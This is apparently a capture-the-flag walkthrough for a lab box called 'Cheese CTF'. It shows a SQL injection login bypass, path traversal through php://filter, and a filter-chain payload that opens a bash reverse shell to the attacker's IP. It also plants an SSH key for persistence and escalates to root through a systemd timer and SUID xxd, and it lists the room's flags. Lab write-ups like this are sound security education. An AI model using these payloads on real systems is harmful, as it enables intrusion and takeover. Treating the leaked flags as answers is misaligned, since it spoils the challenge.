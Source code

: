 # Cheese CTF

### Flags

The website is about cheese: <br />
![image](https://github.com/user-attachments/assets/6570b944-15be-45be-b26f-cd57fa11a286)<br />
After moving a bit through the website and some basic enumeration, the only page that seems to be an entry point is the login page: <br />
![image](https://github.com/user-attachments/assets/3216996f-0906-4195-a5cc-c0f725089dfd)<br />
I started trying some basic SQL Injection techniques such as 'or 1=1--, but it didn't work. I even tried to use `sqlmap` but nothing, so I went back to manual enumeration. So, after one frustrating hour of trial and error, I was able to log in with the payload `' || 1=1;-- -`.<br />
The main thing that I learned with this is that, depending on the database, `||` substitutes `or`, and that it is a good practice to insert one more dash `-` to make sure that the comment symbol `--` gets parsed correctly. <br />
I am now inside an admin panel:<br />
![image](https://github.com/user-attachments/assets/7586859f-336d-46f6-8534-d2eeb665a90f)<br />
Moving a bit in the panel, I'm noticing some strange URLs:<br />
![image](https://github.com/user-attachments/assets/dc7e0d10-0957-4fca-b619-f2d165985e53)<br />
The server is using a **PHP wrapper filter**, which is a technique used to correctly read contents of a given file, even if it is encoded somehow. The first thing that came to my mind is to check for a path traversal vulnerability. So i used the following URL: `http://10.10.207.231/secret-script.php?file=php://filter/resource=../../../../../../../etc/passwd`, and it worked:<br />
![image](https://github.com/user-attachments/assets/773e114a-7848-498b-a85a-6b7329044952)<br />
Next, i tried to perform a RFI(Remote File inclusion) attack, by opening a web server on my machine and using the following URL: `10.10.207.231/secret-script.php?file=php://filter/resource=http://10.11.108.100/test.txt`. But it didn't work.
After some online search I found [this](https://github.com/synacktiv/php_filter_chain_generator/blob/main/README.md) github repo showing how to generate a php://filter payload for RCE. I copied the code in a file named `test.py` and used the following command to create a reverse shell payload: <br />
`python3 test.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/10.11.108.100/4444 0>&1\"'); ?>"`. <br />
So i copied the payload starting from "php://...." and put it inside the URL. So the final URL looked something like: `http://10.10.38.241/secret-script.php?file=php://filter/convert.iconv.UTF8......`. After opening a netcat listener, I got remote access(flags can be found at the end of this writeup):<br />
![image](https://github.com/user-attachments/assets/48cdd9d4-f15c-4921-ba9f-7e87c882d241)<br />
Now let's stabilize the shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    CTRL+Z
    stty raw -echo; fg
    export TERM=xterm
I'm still not able to get the user flag:<br />
![image](https://github.com/user-attachments/assets/1f5bb354-80df-432c-bad4-5932ddba24cb)<br />
However, enumerating comte's home directory, I found that I have write access to his `.ssh/authorized_keys` file. Therefore, what I can do is: 
1) generate a new key pair: `ssh-keygen -t rsa -b 4096 -f mykey`
2) copy the newly generated public key inside `.ssh/authorized_keys`: `echo "ssh-rsa PUB_KEY" >> /home/comte/.ssh/authorized_keys`
3) copy the private key inside the attacker's machine and change its permissions: `chmod 600 mykey`
4) Now log into comte's account via ssh: `ssh -i mykey comte@target_IP` <br />
![image](https://github.com/user-attachments/assets/2c93d5fc-013d-4996-809c-4499d00c71cf)<br />
After using linpeas to enumerate the system, this is what comes out: <br />
![image](https://github.com/user-attachments/assets/5dcce2a5-06a3-4cc5-b1ea-381a1fcdcd32)<br />
Just like cron jobs, systemd timers can be used to execute commands or scripts at specified time intervals. Also if I run `sudo -l`, this is what I get: <br />
![image](https://github.com/user-attachments/assets/128b651b-b23e-459a-94d8-c699db08b670)<br />
If we run `cat /etc/systemd/system/exploit.service` we can see what's the task made by this service:<br />
![image](https://github.com/user-attachments/assets/adbe6605-ef83-4204-8aa1-1cd574838405)<br />
It's apparently adding the SUID bit to a binary called `xxd`. However the .timer files has a misconfigured option which I corrected: to `OnBootSec=10sec`<br />
![image](https://github.com/user-attachments/assets/5b887301-5d29-45f3-8ad5-aae480224144)<br />
After that, I run:

        sudo /bin/systemctl daemon-reload
        sudo systemctl enable exploit.timer
        sudo systemctl start exploit.timer
If I now run `find / -perm -04000 2>/dev/null`, I get a new suid binary:<br />
![image](https://github.com/user-attachments/assets/556dc4f9-815f-4aa5-9135-ac751c1c20dd)<br />
The exploitation for this binary can be easily found on [GTFObins](https://gtfobins.github.io/gtfobins/xxd/#suid):<br />
![image](https://github.com/user-attachments/assets/992fc8bb-bdd2-4553-a9eb-58dbaa12c40e)<br />
So we can exploit this SUID to read any file we want. Here's how to read root.txt:<br />
![image](https://github.com/user-attachments/assets/2fa9466e-3399-4beb-bcf9-8bc0e32e9fd4)<br />
gg wp

- What is the user.txt flag? `THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`
- What is the root.txt flag? `THM{dca75486094810807faf4b7b0a929b11e5e0167c}`
